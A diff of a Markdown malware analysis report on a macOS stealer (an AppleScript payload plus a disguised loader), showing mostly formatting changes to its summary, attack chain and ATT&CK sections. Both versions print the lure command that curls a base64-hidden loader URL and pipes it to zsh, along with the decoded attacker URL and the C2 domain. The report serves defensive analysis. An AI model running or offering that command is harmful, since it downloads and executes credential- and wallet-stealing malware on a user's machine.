

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, 2 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -1,25 +1,25 @@
-# **Digital Analysis of loader shell script and payload.applescript**
+# Digital Analysis of `loader.sh` and `payload.applescript`
 
 Author: Gabriel Berrios
 Date: 26-03-2026
 Version 1.0
 
-Warning : Running some commands presented in this report might trigger malicious activity in your computer.
+Warning: Running some commands presented in this report might trigger malicious activity on your computer.
 ---
 
-# **Summary**
-
-This malware consisted of **two distinct malicious components**:
-1\. **AppleScript stealer**: \- credential harvesting \- browser \+ wallet data collection \- staging and upload capability.
-2\. **Persistent loader**: \- disguised as Google updater \- runs every 60 seconds \- contacts C2 \- executes attacker-supplied code.
-
-
-# **Attack Chain**
-
-```
-pasting malicious base64 commandafront edn templates
+# Summary
+
+This malware consisted of two distinct malicious components:
+
+1. `payload.applescript`: credential harvesting, browser and wallet data collection, staging, and upload capability.
+2. `loader.sh`: a disguised loader that contacts attacker infrastructure and launches the AppleScript payload.
+
+# Attack Chain
+
+```shell
+pasting malicious base64 command from the blog post
 → loader.sh
-→ download and executes malicious applescript
+→ downloads and executes malicious AppleScript
 osascript payload.applescript
 → killall Terminal
 → credential prompt + validation
@@ -37,27 +37,27 @@ osascript payload.applescript
 
 ```
 
-
-# **The Initial Phase**
-
-
-**Original post :**
-The blog that recommended the malicious command.
-
-```
-https://macdev.slab.com/public/posts/insta-%D1%96%D1%96-with-termina-%D1%96-g40n4aau?shr=6etwxr0gksp2ltctcqv7gom7 ( do not run in terminal )
-```
-
-The blog gives a command that will trick the user to run this
-
-```
-echo "Downloading Update: https://support.apple.com/downloads/xprotect-remediator-150.dmg" && curl -s $(echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d) | zsh
-```
-
-Decoding the file ends up with a malicious command that could potentially run a malicious script in the computer.
-
-```
-echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d
+# The Initial Phase
+
+Original post referenced in the incident:
+
+```text
+https://macdev.slab.com/public/posts/insta-%D1%96%D1%96-with-termina-%D1%96-g40n4aau?shr=6etwxr0gksp2ltctcqv7gom7
+```
+
+The post presents the following command to the user:
+
+```shell
+echo "Downloading Update: https://support.apple.com/downloads/xprotect-remediator-150.dmg" && \
+curl -s $(echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d) | \
+zsh
+```
+
+Decoding the embedded base64 string reveals the real loader URL:
+
+```shell
+echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | \
+base64 -d
 https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
 ```
 
@@ -1517,11 +1573,11 @@ host https://datasphere.us.com/api/bot/heartbeat
 | C2 / staging domain | `datasphere.us.com` | Appears in both the AppleScript and the fake updater. |
 | Recon service | `api.ipify.org` | External IP lookup, observed in PCAP. |
 
-# **ATT\&CK Mapping**
+# ATT&CK Mapping
 
 This mapping covers the behavior visible in loader.sh and payload.applescript. The techniques below are high-confidence matches where the sample behavior clearly aligns to MITRE ATT\&CK. A few entries are marked as inference when the code strongly suggests the behavior rather than spelling it out in one line.
 
-## **Technique Mapping of [loadser.sh](http://loadser.sh) and payload.applescript**
+## Technique Mapping of `loader.sh` and `payload.applescript`
 
 | Tactic | Technique | Why It Fits | Sample Evidence |
 | ----- | ----- | ----- | ----- |
````
Also changed, not shown: other parts of malware/shub-stealer.md (+197 -141 lines).
